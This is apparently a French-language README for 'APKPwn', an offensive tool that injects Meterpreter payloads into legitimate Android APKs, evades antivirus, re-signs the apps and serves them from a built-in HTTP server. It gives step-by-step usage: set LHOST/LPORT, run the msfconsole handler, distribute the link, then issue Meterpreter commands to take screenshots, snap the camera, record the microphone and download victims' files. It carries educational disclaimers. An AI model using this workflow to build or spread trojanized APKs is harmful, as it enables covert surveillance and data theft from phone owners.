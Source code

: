 # APKPwn - Android AV Evasion & Payload Injection Tool

APKPwn est un outil de sensibilisation à la cybersécurité qui permet de générer des APK infectées avec un payload **Meterpreter**. Cet outil est conçu dans un cadre éducatif pour démontrer les risques d'une mauvaise gestion des applications mobiles, en particulier l'installation de logiciels non fiables.

> **⚠️ IMPORTANT :**
> Ce projet est à but éducatif et de sensibilisation. Toute utilisation malveillante de cet outil est strictement interdite. **N'utilisez jamais les APK générées dans un environnement réel ou sans consentement explicite**. L'outil est conçu pour des environnements de tests sécurisés.

## Caractéristiques
- Génération de payloads Android avec `msfvenom`.
- Évasion AV pour des tests sur des applications Android.
- Signatures APK intégrées.
- Serveur HTTP intégré pour héberger et servir les APK malveillantes.

## Prérequis

- Système Linux (testé sur Ubuntu/Debian).
- Metasploit Framework installé.
- Les dépendances suivantes doivent être présentes :
  - `apktool`
  - `openjdk-11-jdk`
  - `apksigner`
  - `zipalign`
  
Si les dépendances ne sont pas installées, l'outil les installera automatiquement.

## Installation

1. Clonez le dépôt sur votre machine :

    ```bash
    git clone https://github.com/votre-utilisateur/APKPwn.git
    cd APKPwn
    ```

2. Installez les dépendances :

    L'outil vérifiera les dépendances nécessaires et vous proposera de les installer si elles ne sont pas disponibles.

    ```bash
    python3 apkpwn.py
    ```

3. Lancer l'outil :

    ```bash
    python3 apkpwn.py
    ```

    Suivez les instructions à l'écran pour choisir le payload, définir les options d'hôte et de port, et créer l'APK infectée.

## Utilisation

### Étape 1 : Création de l'APK infectée

Une fois l'outil lancé, vous devrez fournir les informations suivantes :
- **LHOST** : L'adresse IP de votre machine (l'outil la détecte automatiquement).
- **LPORT** : Le port sur lequel Metasploit écoutera les connexions.
- **Original APK** : Chemin vers une APK légitime que vous souhaitez utiliser pour injecter le payload.
- **Output APK** : Nom de l'APK malveillante qui sera générée.

### Étape 2 : Lancer Metasploit et attendre la connexion

L'outil générera un fichier `meterpreter_handler.rc` pour faciliter le démarrage du listener Metasploit :

    msfconsole -r meterpreter_handler.rc

Cela lancera un handler qui attendra une connexion de l'APK infectée.

### Étape 3 : Démarrage du serveur HTTP

Une fois l'APK malveillante générée, l'outil démarre un serveur HTTP sur votre machine pour que l'APK soit accessible via un lien :

    http://votre-ip:8000/votre_apk_malveillante.apk

Le but est de sensibiliser les utilisateurs aux dangers des APK téléchargées sur des sites non officiels.

### Étape 4 : Ouvrir une session Meterpreter

Lorsque l'utilisateur installe et exécute l'APK infectée sur son appareil, une session Meterpreter s'ouvrira. Vous pouvez alors interagir avec l'appareil compromis.

    meterpreter > sessions -i [ID de la session]

## Scénario de Sensibilisation

Voici un scénario de sensibilisation typique pour une session Meterpreter ouverte sur un appareil Android.

### 1. **Prendre une capture d'écran :**

Cela démontre comment un attaquant peut visualiser l'écran de l'utilisateur :

    meterpreter > screenshot

### 2. **Récupérer des informations sur l'appareil :**

Pour montrer la quantité d'informations accessibles à l'attaquant :

    meterpreter > sysinfo

### 3. **Vérifier si l'appareil est rooté :**

Montre comment l'attaquant peut vérifier si l'appareil a des permissions root :

    meterpreter > check_root

### 4. **Activer la caméra et prendre une photo :**

Un exemple frappant de la compromission de la vie privée :

    meterpreter > webcam_snap

### 5. **Activer le microphone et enregistrer de l'audio :**

Démontre comment l'attaquant peut enregistrer l'environnement sonore :

    meterpreter > record_mic

### 6. **Récupérer les fichiers de l'appareil :**

Montre que toutes les données de l'utilisateur peuvent être exfiltrées :

    meterpreter > ls /sdcard/
    meterpreter > download /sdcard/DCIM/photo.jpg

## Disclaimer

**APKPwn est strictement destiné à des fins éducatives et de sensibilisation.** Utilisez cet outil uniquement dans des environnements contrôlés avec l'autorisation de toutes les parties impliquées. L'utilisation malveillante peut entraîner des sanctions légales graves.

## Contributions

Les contributions sont les bienvenues ! Si vous souhaitez améliorer l'outil, n'hésitez pas à soumettre une Pull Request.

## License

Ce projet est sous licence MIT - consultez le fichier [LICENSE](LICENSE) pour plus de détails.
